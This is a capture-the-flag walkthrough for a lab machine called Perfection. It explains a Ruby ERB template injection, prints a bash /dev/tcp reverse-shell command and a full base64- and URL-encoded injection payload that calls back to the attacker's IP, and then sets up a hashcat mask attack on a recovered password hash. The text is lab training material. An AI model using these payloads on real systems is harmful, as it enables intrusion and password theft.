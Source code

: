# Tutorial

Note: For better understanding I recommend reading first "Headless" machine as I explain some fundamentals there.

Let's start pinging:

(pic1)

Receives packets. Now let's start scanning the domain:

(pic2)

3 open ports. One ssh, http and http-alt. Let's analyze the http because it is a good way to start analyzing the webserver site. We begin by using gobuster to analyze the possible directories in the domain:

(pic3)

The URLs were analyzed and couldn't find any useful information on those URLs. Let's enter manually into the site:

(pic6)

The webpage is an interactive calculator. Visiting "About Us" and "Calculate your weighted grade" we find that there is a input section that interact with the site.

(pic7)

Let's get more information about this site to infere what kind of attacks is this site vulnerable to:

(pic4)

Observe that the site contains `Content-Type: text/html;charset=utf-8` and `Server: WEBrick/1.7.0 (Ruby/3.0.2/2021-07-07)`. So this developer must have used Ruby to develop the site. Let's analyze the content:

(pic8)

There are no clues that the frontend is running Ruby (no `<% %>/erb/ruby/rhtml` keywords). As far as the analysis can go, it seems a normal html site. Nonetheless, from the previous pictures we know that the server is using WEBrick 1.7.0, which is a Ruby-based web server. This must be specifying that the backend is running Ruby.

Let's look on Google a bit of information by typing "server-side template injection ruby" to see if there is a way to inject malicious code. Checking on Github you can find "Ruby" section in this [link](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#ruby:~:text=%5D).toArray())%20%7D%7D-,Ruby,-Ruby%20%2D%20Basic%20injections)

The only way we have to introduce a payload into the webserver is through the interactive calculator. So let's play with it obbeying its requirements described at the bottom. Using burpsuite and analyzing the request. We can observe that we can introduce a payload into the webserver. Nonetheless, we must know that we cannot use the same payload technique we used in Headless because Perfection is based on Ruby. Moreover, in one of the pictures we can observe that has XSS injection: Blocked. So instead of doing an XSS injection to get admin privileges, we are going to try to get a reverse shell to the Ruby webserver. The burpsuite analysis is the following:

(pic9)

#### Thinking about the payload

Now comes the tricky part of this machine. What would be the correct payload (among the possible ones) for this server?

Reading the previous URL, we find they have a specific case for ERB basic injection: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#ruby:~:text=ERB%3A-,%3C%25%3D%207%20*%207%20%25%3E,-Slim%3A
What is an ERB in Ruby? ERB (Embedded Ruby) is a templating system built into Ruby that allows you to embed Ruby code directly into your text files, including HTML, XML, or even plain text documents.

So, we know that the site uses html content, but the backend uses Ruby. So it is highly likely that the this ERB injection will work. We will embed an ERB command injection into the html site for the server to interpretate the command and get the reverse shell.

In the URL they show the case `<%= 7 * 7 %>`.
Nonetheless our goal is to inject a reverse shell into the Ruby webserver, not multiplying. So in Ruby terminology would be something of style:
`<%= system("echo + payload");=>'.
Also, when performing an ERB injection in a Ruby-based web application, URL encoding is necessary because the payload nedds to be sent as part of an HTTP request. So both the payload and the command injection must be URL encoded.
Reading this documentation (in Spanish) https://www.uv.es/jac/guia/hexawin.htm
The command injection must be as follows:
`<%25%3dsystem("echo+URLencoded(payload);%25>`.

Now is the moment to insert the payload. Let's prepare it.

##### The Payload

The payload used is going to be the same as in the previous machine `Headless`. The command is the following:
```
bash -i >& /dev/tcp/{IP}/{port} 0>&1
```
`bash -i` starts an interactive bash shell
`>& /dev/tcp/{IP}/{port} 0>&1`: Redirects the input and output of the bash shell (target) to a TCP connection to {IP} on port {port} (to our netcat listerner).

This effectively sets up a reverse shell, where the compromised server connects back to the attacker's machine, giving the attacker remote control over the server.

You must be aware that you cannot inject the payload directly. It is necessary to encode it into Base64. Why? Shell commands often contain special characters that could be misinterpreted by the server or web application. Also, characters like spaces or special symbols (<, >, &) can break the command or be deleted by security mechanisms from the server. So, encoding the command in base64 makes it less likely to be detected and blocked by such filters because the payload appears as a harmless string of alphanumeric characters. So, using the reasoning explained by encoding the reverse shell injection command into Base64 and later into URL encoding, the outcome is as follows:

(pic10)

##### The listener

Now, time to set up the listener:

(pic11)

##### Inject the reverse Shell

Time to inject the reverse shell. Using our previously encoded payload (first into base64 and later into URL encode) the final command injection is as follows:

category1=test1%0A<%25%3dsystem("echo+YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC43Ni83MzczIDA%2BJjE%3D|+base64+-d+|+bash");%25>1

Why %0A at the beginning of the payload? For Ruby to interpretate test1 and then independently the payload as a newline.
The part `|+base64+-d+|+bash`in the injection payload is used to decode a base64-encoded string and then execute it as a shell command.
1. First ruby decodes the string in URL format
2. Then the first pipe `|` orders to decode the base64-encoded string
3. The result is then sent to a second pipe `|` that takes the decoded output and passes it as input to the `bash` command.
4. `bash` executes the input as a shell script

Open burp-suite again. Fill some data into the burp-browser (with the intercept on) and submit it. You will see the request stopped on burp-suite. Right-click and select "send to repeater". Edit the request there and add the payload encoded. Click on "Send". Open the terminal where your netcat listener is open:

(pic13)

Bingo. You got access to the webserver application. Now playing around like I did in the previous picture you can get the user flag.

#### Root flag

After playing around with all the folders possible in the remote shell, the only interesting file found is the one located at `/home/susan/Migration`. The file is a `.db`. If you open it using cat you won't be able to appreciate the content correctly because the file is in binary format. Binary files contain not only text but also binary data that represents various non-printable characters and metadata necessary for the database engine to interpret the file correctly. The `strings` command is designed to extract and display printable text strings from binary files. Some example of .db files are SQLlite.db files.

(pic15)

This file contains the password for several users. The password we need is the Susan one because we are logged into `susan@perfection:~/Migration$`. A good way to decipher the password is to use hashcat.

##### Hashcat

Hashcat is an open-source password recovery tool used for recovering lost passwords. It is designed to crack password hashes through various attack methods like brute-force, dictionary, combinator and rule-based attacks.

Grab this hash you found and in another terminal save it into a .txt file and run hashcat.

(pic16)

You will see that it takes too long and requests you for a mask for better performance. A `mask` refers to a string pattern used to generate password candidates during a brute-force attack. The mask specifies the structure of the passwords that hashcat will attempt to crack. Where can we obtain such mask? Let's do a deeper search on the webserver. Go to `cd ~` and run the following command: `find / -name "*mask*" -ls 2>dev/null`. You will get the following outcome:

(pic17)

There is an enormous amount of files that show the keyword "mask". Maybe this is a too generic word. Analyzing each of the files would be a nightmare. Also, the path and filename seem not to give any hints. Let's try with "*password*" and "*susan*". With "*password*" it will be the same, a huge number of files which do not show any meaningful information. When you run:

```
find / -name "*susan*" -ls 2>/dev/null
```

Where `find /` starts the find command at the root directory. `-name "*susan*"` searches with the pattern *susan*. `-type f` looks for files that has such *susan* keyword. `-ls` shows the path to (and more detailed information) of that file. `2>/dev/null` avoids showing error messages in the search (e.g., permission-denied errors). You will get three files. We saw two of them. Let's see this third one:

(pic18)

So the mask is {firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}. All letters of the firstname should be in lowercase. Our target user is susan, so the mask would be `susan_nasus_?d?d?d?d?d?d?d?d?d?d`. What is `?d`? It represents a digit in hashcat command, and it is repeated ten times, indicating a ten-digit sequence because the integer &isin; [1-1,000,000,000]. Run the following command in another terminal:


